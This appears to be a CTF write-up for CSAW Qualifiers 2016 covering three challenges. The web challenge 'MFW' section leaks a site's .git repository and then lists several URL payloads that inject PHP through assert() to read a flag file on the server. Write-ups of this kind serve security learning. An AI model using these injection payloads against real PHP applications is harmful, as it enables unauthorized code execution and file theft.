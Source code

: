 # CSAW Qualifiers 2016 File Dump

# "Notesy 2.0" 1: (Solved)

Problem: "Remember last year?"

Flag: `abcdefghijklmnopqrstuvwxyz`

# "Kill" Forensics 50: (Solved)

Problem: "Is kill can fix? Sign the autopsy file?"

Solution: File is a corrupted `.pcapng`.  It will not open in Wireshark or tcpdump.  File is readable in text editor.  Used `file_search.py` to find the flag.

Flag: `flag{roses_r_blue_violets_r_r3d_mayb3_harambae_is_not_kill}`


# "MFW" Web 125: (Solved)

Problem: "Hey, I made my first website today. It's pretty cool and web7.9."

Solution: Remote code execution through URL.  Attached Burp as a proxy to my browser.  Inspected the HTML, and notice possible `?/page=flag`.
The site also points out how it is built with git `http://web.chal.csaw.io:8000/.git/config` is accessible.  
I utilized a [DVCS-ripper](https://github.com/kost/dvcs-ripper) to download the repository.
Attempted file inclusion, but like the code shows it is not feasible.  
After anaylzing the code I ran it locally and tried many different URLs.  I added a debug line of `echo("<script>console.log( 'Debug Objects: " . assert("file_exists('$file')") . "' );</script>");`  I then ran the following urls:

1. `http://web.chal.csaw.io:8000/?page=phpinfo();`
2. `http://web.chal.csaw.io:8000/?page=http://web.chal.csaw.io:8000/templates/flag.php`
3. `http://web.chal.csaw.io:8000/?page=file_get_contents(%22/templates/flag.php%22);`
4. `http://web.chal.csaw.io:8000/?page= flag')%26%26file_get_contents('/templates/flag`
5. `http://web.chal.csaw.io:8000/?page=flag%27)||die(%27templates/flag`
6. `http://web.chal.csaw.io:8000/?page=flag%27%29||var_dump%28file_get_contents%28%27templates/flag.php%27%29%29;//`

The php code has [seemingly interesting defense](https://www.exploit-db.com/papers/12871/) built into it to distract someone at first through defeating a local file inclusion `assert("strpos('$file', '..') === false")`.
But `assert()` will execute PHP code, and thus that is it's weak point.

Flag: `flag{3vald_@ss3rt_1s_best_a$$ert}`
